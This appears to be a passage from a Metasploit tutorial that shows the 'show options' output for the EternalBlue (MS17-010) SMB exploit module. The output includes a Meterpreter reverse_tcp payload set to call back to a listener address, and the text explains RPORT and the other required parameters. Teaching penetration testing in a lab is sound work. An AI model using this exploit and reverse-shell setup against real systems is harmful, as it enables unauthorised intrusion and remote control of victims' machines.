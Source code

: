 


​            A Meterpreter command prompt        

```shell-session
           C:\Windows\system32>
        
```



As mentioned earlier, the `show options` command will list all available parameters.

​            The show options command        

```shell-session
           msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
        
```



As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some    required parameter values will be pre-populated, make sure you check if these should remain the same for your    target. For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will    try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.
